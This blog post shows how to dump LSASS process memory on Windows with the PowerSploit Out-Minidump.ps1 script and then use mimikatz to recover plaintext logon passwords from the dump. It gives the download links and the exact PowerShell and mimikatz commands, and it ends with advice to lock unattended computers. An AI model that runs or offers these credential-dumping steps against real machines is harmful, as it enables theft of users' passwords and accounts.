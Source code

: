 ```yaml
---
layout: post
title: "Windows password vulnerability: Hackable in 5 minutes"
description: This is a simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
keywords: Windows passwords, logon password, LsaProtectMemory, LsaUnprotectMemory, lsass.exe, Windows vulnerability, mimikatz terminal, powershell script, out-minidump, minidump
tags: [Windows, PowerShell, Vulnerability, Encryption, Decryption]
comments: true
---
```


I have come across this Windows password vulnerability as mentioned in [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes). So, I tried to reproduce the steps to see if the vulnerability is still there, and the result is really shocking me.

Yep, even in Windows 10, the method is still working nicely. **The method is not new at all.** So, let me show how you can reproduce it by using a simple exploitation tool and a PowerShell script. **Anyone can perform this hacking when you left your Windows unlocked.** I'm not really going to explain the details, just went straight to the steps.

### Getting started

First, you need to download or get this tool called [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) (just get the binary package, e.g. **mimikatz_trunk.zip**) and this PowerShell script [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) by Matthew Graeber. Let's start!

### Using PowerShell to perform memory dump

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script, **Out-Minidump.ps1**. The flow of cmdlet will look like this:

{% include figure.html src="http://i.imgur.com/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### Using mimikatz terminal program to view the passwords

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="http://i.imgur.com/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

{% include figure.html src="http://i.imgur.com/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}

Tadaa... Now I can see my actual Microsoft Account username and password in **a plain text**. As you imagine, most of people nowadays are still using the same password for almost everything. _Too bad.._ So, I expected you can picture all the consequences with this vulnerability...

### The existing vulnerability info

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

### The bottom line

**You will be safe as long as you always lock your computer when you're away.** This short article is just to remind me or anyone else to always be careful in whatever we do especially with anything to do with our passwords and personal credential information. No system is perfect! So, DON'T EVER LEAVE YOUR COMPUTER UNLOCKED!
